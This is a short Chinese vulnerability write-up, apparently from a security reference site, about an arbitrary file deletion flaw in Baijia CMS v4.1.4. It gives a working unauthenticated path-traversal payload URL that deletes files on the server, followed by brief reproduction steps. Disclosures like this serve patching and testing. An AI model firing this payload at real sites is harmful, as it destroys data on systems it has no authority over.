 ```yaml
---
title: 百家cms v4.1.4 任意文件删除漏洞
id: zhfly3324
---
```


# 百家cms v4.1.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

百家cms v4.1.4

## 三、复现过程

```
# payload
# 不需要后台权限
# 只能删除文件，不能删除文件夹 `[http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt](http://www.0-sec.org/index.php?mod=mobile&act=uploader&op=post&do=util&m=eshop&op=remove&file=../qwe.txt)` 
```

设置里需要选择本地，否则删除的不是本地文件

![image](../img/8488bdbdbafc372b50cfa43ed42facea.png)

先在根目录下创建qwe.txt作为测试文件

![image](../img/e9b8ef9a6b2adc00f22332e764e2fd27.png)

访问payload

![image](../img/4abaf66e290dc5934a84872422078ff6.png)

查看文件，已经被删除

![image](../img/07f1ed518212169c3f94f7537dd831e3.png)

## 参考链接

> https://xz.aliyun.com/t/7542